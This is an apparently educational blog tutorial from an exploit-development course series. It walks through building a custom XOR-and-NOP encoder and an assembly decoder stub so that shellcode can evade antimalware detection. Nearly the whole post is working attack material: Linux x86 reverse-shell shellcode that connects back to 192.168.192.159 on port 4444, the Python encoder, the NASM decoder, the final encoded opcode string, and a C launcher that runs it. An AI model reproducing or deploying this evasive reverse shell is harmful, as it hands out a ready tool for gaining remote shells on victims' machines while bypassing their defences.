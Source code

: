 ```yaml
---                                                                                                                                                                                                                                       
title: Custom Encoder
author: Stipe Marinovic
date: 2020-06-11 22:00:00 +0800                                                                                                                                                                                                           
categories: [Blogging, Tutorial]                                                                                                                                                                                                          
tags: [slae, shellcoding]                                                                                                                                                                                                                 
toc: true                                                                                                                                                                                                                                 
---                                                                                                                                                                                                                                       
```

                                                                                                                                                                                                                                          
** PAGE STILL UNDER CONSTRUCTION **   
## Introduction ##

Sending well known shell code to target machine would most probably be detected by antimalware solution . 
One way to bypass antimalware detection is to encode shell code and to have higher chances for sucessful bypass, custom encoder should be created and used. 
In this blog post we will go thru process of creating simple encoder and decored. 
As an example we will preform XOR operation on every shell code byte with 0x0F value (key) and add NOP instrunction after every encoded shell code byte. This endocer will double shell code size which can be tricky if buffer space is small but for educational purposes we can ignore that. 
During decoding procedure, XOR operation will be preformed to restore original shell code and NOP instructions will be ignored.  

## Shell code ##

We can use reverse shell code and wrapper form previous [blog post](https://smarinovic.github.io/posts/Reverse-shell/) which establishes connection to defined remote address at defined port (in our case IP address is 192.168.192.159 and port is 4444). 

```
python wrapper.py 192.168.192.159 4444
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

## Encoding shell code ##

Once we get shell code, we will use following python script to read thru defined bytearray (shell code opcodes) and preform XOR operation with 0x0F key. 
NOP (\x90) will be injected after every encoded byte. 
```
#!/usr/bin/python
import sys
import  random

# Custom reverse shell opcode (connect to 192.168.192.159 at port 4444)
shellcode = b"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Encoder: XOR every byte with 0x0F and then insert x90

enc_shellcode=""                 # declare empty string

for x in bytearray(shellcode):   # for every byte in bytearray
   x=x^0x0f                      # preform XOR byte with 0x0F
   enc_shellcode+='0x%02x,'%x    # write encoded byte in new string
   enc_shellcode+='0x90,'        # add NOP (\x90) after every encoded byte in new string

# Print encoded opcode
print 'Encoded shellcode: ' + enc_shellcode
```
Encoded shell code is following:
```
python encoder.py 
Encoded shellcode: 0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0x3e,0x90,0xdd,0x90,0x3e,0x90,0xf9,0x90,0x69,0x90,0xb7,0x90,0x68,0x90,0x0e,0x90,0xbc,0x90,0x0d,0x90,0xbe,0x90,0x0e,0x90,0xbd,0x90,0x09,0x90,0xc2,0x90,0x8f,0x90,0x86,0x90,0xc8,0x90,0x3e,0x90,0xcf,0x90,0x69,0x90,0xb7,0x90,0x65,0x90,0x0e,0x90,0x3e,0x90,0xc6,0x90,0x5e,0x90,0x67,0x90,0xcf,0x90,0xa7,0x90,0xcf,0x90,0x90,0x90,0x69,0x90,0x67,0x90,0x1e,0x90,0x53,0x90,0x69,0x90,0x65,0x90,0x0d,0x90,0x86,0x90,0xf4,0x90,0x86,0x90,0xee,0x90,0xbd,0x90,0x19,0x90,0xc2,0x90,0x8f,0x90,0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0xbe,0x90,0x0c,0x90,0x3e,0x90,0xcf,0x90,0xbf,0x90,0x30,0x90,0x86,0x90,0xf4,0x90,0xf1,0x90,0xc6,0x90,0xc2,0x90,0x8f,0x90,0x7a,0x90,0xfb,0x90,0x3e,0x90,0xcf,0x90,0x5f,0x90,0x67,0x90,0x61,0x90,0x20,0x90,0x7c,0x90,0x67,0x90,0x67,0x90,0x20,0x90,0x20,0x90,0x6d,0x90,0x66,0x90,0x86,0x90,0xec,0x90,0x5f,0x90,0x86,0x90,0xed,0x90,0x5c,0x90,0x86,0x90,0xee,0x90,0xbf,0x90,0x04,0x90,0xc2,0x90,0x8f,0x90,
```

## Decoder ##

To sucessfuly decode encoded shell code, we need to preform XOR operation for every shell code byte with defined key 0x0F. 
Every other byte will be skipped as it is NOP instrunction. We will use: 
* EAX for XOR operations
* ECX as counter for decoding stub
* EDX as pointer to beggining of encoded (and later decoded) shell code
* ESI as pointer to byte which we need to decode
* EDI as pointer to memory address where decoded byte will be placed overwriting original byte

Stub will overwrite original encoded shell code with decoded one, but since we will skip every other byte (\x90) we will have some "garbage" left on the stack. Since running our shell code is primary goal we won't bother with garbage code at this point in time.

```
global _start

section .text
_start:
    jmp short call_decoder

    decode:
        pop esi                  ; pop pointer to shellcode in ESI
        xor eax, eax             ; clear EAX - used for XOR operations
        xor ecx, ecx             ; clear EXC - used as counter
        xor edi, edi             ; clear EDI - used as pointer to decoded shell code destination
        mov cl, len              ; move length of the shellcode in cl
        sar cl, 1                ; divide by 2 (since we are skipping every 2nd byte which is \x90)
        mov edx, esi             ; save pointer to beggining of shellcode from ESI to EDX
        mov edi, esi             ; save pointer to beggining of shellcode from ESI to EDI

    decoder_loop:
        mov  al, byte [esi]      ; move one byte from address pointed by ESI
        xor byte al, 0x0f        ; XOR first byte of the shellcode with 0x0f
        mov [edi], al            ; move new value from AL to address pointed by ESI

        inc esi                  ; increment ESI (to get to new address)
        inc esi                  ; increment ESI (to skip \x90 - NOP)
        inc edi                  ; increment EDI - pointer to decoded shellcode

        dec ecx                  ; decrement ECX (counter) by 1
        cmp cl, 0x1              ; compare if CL is eaqual to 1 and is so - jump to shellcode pointed by EDX
        jnz decoder_loop
        jmp edx

    call_decoder:
        call decode
        shellcode: db 0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0x3e,0x90,0xdd,0x90,0x3e,0x90,0xf9,0x90,0x69,0x90,0xb7,0x90,0x68,0x90,0x0e,0x90,0xbc,0x90,0x0d,0x90,0xbe,0x90,0x0e,0x90,0xbd,0x90,0x09,0x90,0xc2,0x90,0x8f,0x90,0x86,0x90,0xc8,0x90,0x3e,0x90,0xcf,0x90,0x69,0x90,0xb7,0x90,0x65,0x90,0x0e,0x90,0x3e,0x90,0xc6,0x90,0x5e,0x90,0x67,0x90,0xcf,0x90,0xa7,0x90,0xcf,0x90,0x90,0x90,0x69,0x90,0x67,0x90,0x1e,0x90,0x53,0x90,0x69,0x90,0x65,0x90,0x0d,0x90,0x86,0x90,0xf4,0x90,0x86,0x90,0xee,0x90,0xbd,0x90,0x19,0x90,0xc2,0x90,0x8f,0x90,0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0xbe,0x90,0x0c,0x90,0x3e,0x90,0xcf,0x90,0xbf,0x90,0x30,0x90,0x86,0x90,0xf4,0x90,0xf1,0x90,0xc6,0x90,0xc2,0x90,0x8f,0x90,0x7a,0x90,0xfb,0x90,0x3e,0x90,0xcf,0x90,0x5f,0x90,0x67,0x90,0x61,0x90,0x20,0x90,0x7c,0x90,0x67,0x90,0x67,0x90,0x20,0x90,0x20,0x90,0x6d,0x90,0x66,0x90,0x86,0x90,0xec,0x90,0x5f,0x90,0x86,0x90,0xed,0x90,0x5c,0x90,0x86,0x90,0xee,0x90,0xbf,0x90,0x04,0x90,0xc2,0x90,0x8f,0x90
        len equ $-shellcode

```

Assembly code needs to be compiled and linked in the usual way.. 
```
nasm -f elf32 -o decoder.o decoder.nasm
ld -z execstack -o decoder decoder.o
```

But to get opcode we need to modify the usual objdump/cut command as output has more that 6 columns, so instead of ```cut -f1-6``` we need to use ```cut -f1-7``` as follows:

```
objdump -d $1 |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

With modified command, extracted opcode is following:
```
"\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90"
```

Next, we can use skeleton code to run and test sucessfull decoding. To compile it following command should be used:

```
gcc -fno-stack-protector -z execstack -m32 skeleton.c -o encoded_revshell -g
```

Skeleton file with encoded shell code:

```
#include <stdio.h>

unsigned char shellcode[] = "\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90";

int main()
{
        int (*ret)() = (int(*)())shellcode;
        printf("Size of shellcode: %d bytes.\n", sizeof(shellcode)); 
        ret();
}
```

By stepping thu program with GDB we can observe shell code decoding. 
At the beggining of decoding stub we can see that ESI register is pointing to the beggining of encoded shellcode (memory address: ```0x404067```). 

```
gdb-peda$ info register esi
esi            0x404067            0x404067
```

So in order to observe decoing, we will monitor first 10 bytes starting at ```0x404067``` memory address.
At beggining address contain encoded shell code (0x3e, 0x90, 0xcf, 0x90, 0x3e, 0x90 ...)

* Initial data on address ```0x404067```  

```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x3e    0x90    0xcf    0x90    0x3e    0x90    0xd4    0x90
0x40406f <shellcode+47>:        0x3e    0x90
```

* content of the same address after few itterations:  
We can see that 0x3e is decoded to 0x31 (XOR 0x0F, 0x3e = 0x31) and 0x90 is ignored and overwritten.

```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0x90    0xd4    0x90
0x40406f <shellcode+47>:        0x3e    0x90
```

* content of the same address after some more itterations:  
We can see that decoded shell code doesn't not contain added NOPs and that all opcodes are XORed (0x3e XOR 0f = 0x31, 0xcf XOR 0x0f = 0xc0, etc.) and it has overwritten original encoded opcodes:
```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0xc9    0x31    0xd2
0x40406f <shellcode+47>:        0x31    0xf6
```

![Custom decoder working](https://smarinovic.github.io/assets/img/slae_00017.png)
